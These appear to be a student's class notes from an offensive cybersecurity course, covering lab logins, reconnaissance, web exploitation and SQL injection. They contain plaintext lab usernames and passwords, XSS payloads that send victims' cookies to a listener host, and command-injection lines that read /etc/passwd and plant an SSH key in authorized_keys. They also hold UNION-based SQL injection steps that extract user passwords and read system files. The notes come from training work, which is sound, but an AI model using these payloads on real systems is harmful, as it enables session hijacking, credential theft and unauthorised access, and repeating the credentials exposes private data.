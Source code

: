 ### LOGIN INFO ###
Please log into Lins-ops
find IPs on vta.cybbh.space

class info: 10.50.46.45/classinfo.html
Keep this output in your notes, password for pivot/-jump box and CTFd, 10.50 is your Jump box for challenges

CTFd: 10.50.20.250:8000

ssh into my workstation -> ssh -X student@10.50.39.223
password: password 

JUMP_BOX!!!
username: MAKI-502-B
password: d07PevVUniUxBNR
Stack Number: 16
lin.internet: 10.50.49.22
linux-ops ip address: 10.50.39.223

VTA_creds: https://vta.cybbh.space/horizon/project/
Username: mahlon.k.kirwa80
password: regular linux password
Domain: ipa

Jump box:
cctc.cybb

Link slides and what not - https://sec.cybbh.io/public/security/latest/index.html

Instances - https://vta.cybbh.space/horizon/project/instances/

## SECURITY MODULES ##

LESSONS:
1. Penetration testing
2. Reconnaissance
3. Exploit Research
4. Web Exploitation - Day 1
5. Web Exploitation - Day 2
6. Reverse Engineering
7. Exploit Development Testing
8. Post Exploitation
9. Windows Exploitation
10. Linux Exploitation

### PENETRATION TESTING ###

Phases:
1. Phase 1 - Mission definition
2. Phase 2 - Recon
3. Phase 3 - Footprinting
4. Phase 4 - Exploitation and Initial Access
5. Phase 5 - Post Exploitation
6. Phase 6 - Document Mission

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done # Does the first 1000 scans. For the ping sweep... 

Always run the regular scans like above before you try banner grabbing (a technique used to gain information about a computer on a network and the services running on its open ports.)

storage nmap scripts -> ls /usr/share/nmap/scripts/
Popular scripts: ftp-anon.nse, http-enum.nse, smb-os-discovery.nse

How to get information about a certain script -> proxychains nmap [target_ip_address]-Pn -p [target_port] --script-help [target_script]
                                                             nmap ip 192.168.28.97-100, 100,105,111,120 -pm


## Web Exploits CSS ##

proxychains nmap 10.50.45.162 -Pn --script http-enum -p 80

nc -kvnl 8000

n- translates dns

 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


ping 8.8.8.8 ;cat /etc/passwd -> Lets you run and see if 

;cat ~/.ssh/id_rsa.pub

;mkdir /var/www/.ssh

;whoami

;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR" >> /var/www/.ssh/authorized_keys

ssh www-data@10.50.45.162

malicious file upload.... 


10.50.45.62




http://10.100.28.40/Contract_bids.html
http://10.100.28.40/net_test/industry_check.php
http://10.100.28.40/


 <script>document.location="http://10.50.49.22:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


<script>document.location="http://10.50.39.223:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
192.168.65.20

## SQL ##

MariaDB > select carid, name, cost from car;
MariaDB > select carid, name, cost from session.car where carid=4; 
MariaDB > select database(); # shows you where you are with your current database. 
MariaDB > select table_schema, table_name, column_name from information_schema.columns;

table_schema: Refers to the name of the schema (often used interchangeably with "database" in some DBMS) to which the table belongs.
The information_schema.columns table is a meta-table that contains information about all columns in all tables in the database system.

MariaDB > select table_name from information_schema.columns where table_schema=session;
MariaDB > select @@version;
MariaDB > select load_file("/etc/passwd);
MariaDB > select carid, name, cost from session.car union select name, pass, id from session.user;

SELECT * FROM movies;

SELECT * FROM movies where year<2000 or year>2010; # Finding movies not released in the years between 2000 and 2010.
SELECT * FROM movies where id>=1 and id<=5; # Finding the first 5 pixar movies. 
SELECT * FROM movies WHERE Title LIKE '%toy story%'; # Find all the Toy Story movies
SELECT * FROM movies WHERE Director='John Lasseter'; # Find all movies directed by John Lasseter
SELECT * FROM movies WHERE Title like 'WALL-%'; # Find all the WALL-* movies
SELECT DISTINCT Director FROM movies ORDER BY Director ASC; # List all directors of Pixar movies (alphabetically), without duplicates 
SELECT * FROM movies ORDER BY year DESC limit 4; # List the last four Pixar movies released (ordered from most recent to least) 
SELECT * FROM movies ORDER BY title ASC limit 5; # List the first five Pixar movies sorted alphabetically


WHERE Price BETWEEN 10 AND 20;

USE session;
SELECT id FROM user WHERE name='tom' OR 1=1;

steps sql injection
1. in both the password and username field, enter: tom' or 1='1
2. Inspect html and change form from post to get 
3. login and see the information

You will get all selects except for one challenge. 

step 1 -> http://10.50.46.45/uniondemo.php?Selection=2 or% 1=1 -> Keep increasing the value on the selection until an output is derived
step 2 -> http://10.50.46.45/uniondemo.php?Selection=2 union select 1,2,3 union select, find out if there values are ordered

We now know they're not inorder and that 2 is vulnerable let's look at the table schema 
step 3 -> http://10.50.46.45/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

union demo - http://10.50.46.45/Union.html

ford' or 1=1; #   ---> Try this gives this select name, type, cost, color, year from car where name='ford\' or 1=1; #' 
select name, type, cost, color, year from car where name='audi\' or 1=\'1'

0. ford' or 1='1; this didn't work why???
1. ford' or 1=1; # after this we try audi next
2. Audi' or 1=1; #' ----> gives this select name, type, cost, color, year from car where name='Audi' or 1=1; # ' -----> SUCCESS!!!
3. Now we need union select 
4. Audi' union select 1,2,3,4; # -----> doesn't work.. 
5. Audi' union select 1,2,3,4,5; # ----> works.. looks like I added 
6. Audi' UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #      ----> GOLDEN STATEMENT ALLOWS US TO KNOW WHAT TO WRITE FOR THAT SITUATION. Helps us to write a valid query for content
7. Audi' Union select id,null,name,pass,null from session.user; #
query -----> select name, type, cost, color, year from car where name='Audi' Union select id,2,name,pass,null from session.user; #'


## REVERSE ENGINEERING ##
